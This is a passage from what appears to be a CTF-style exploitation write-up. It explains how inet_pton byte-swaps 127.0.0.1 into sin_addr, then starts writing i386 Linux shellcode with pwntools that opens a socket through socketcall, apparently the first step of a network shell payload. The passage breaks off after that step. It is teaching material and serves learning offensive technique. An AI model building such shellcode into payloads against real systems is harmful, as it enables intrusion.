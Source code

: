 Before `inet_pton`:

![before-inet_pton.png](images/before-inet_pton.png)

After `inet_pton`:

![after-inet_pton.png](images/after-inet_pton.png)

Look at the result, we can conclude as following:

```
>>> hex(127)
'0x7f'

>>> hex(0)
'0x0'

>>> hex(1)
'0x1'

>>> 127 . 0  . 0  . 1
>>> 7f    00   00   01
>>> # 127.0.0.1 = 0x7f000001
>>> u32(p32(0x7f000001)[::-1])
0x0100007f
```

That means it will swap all 4 byte from `0x7f000001` into `0x0100007f` and assign to `sin_addr`. Everything is clear now. Let's first make a endpoint socket with the shellcode below:

```python
shellcode = asm(
    '''
    sub sp, 0x200

    push eax
    push 1
    push 2

    mov al, 0x66        # SYS_SOCKETCALL
    push 1
    pop ebx             # SYS_SOCKET
    mov ecx, esp
    int 0x80
    ''', arch='i386', os='linux')
```
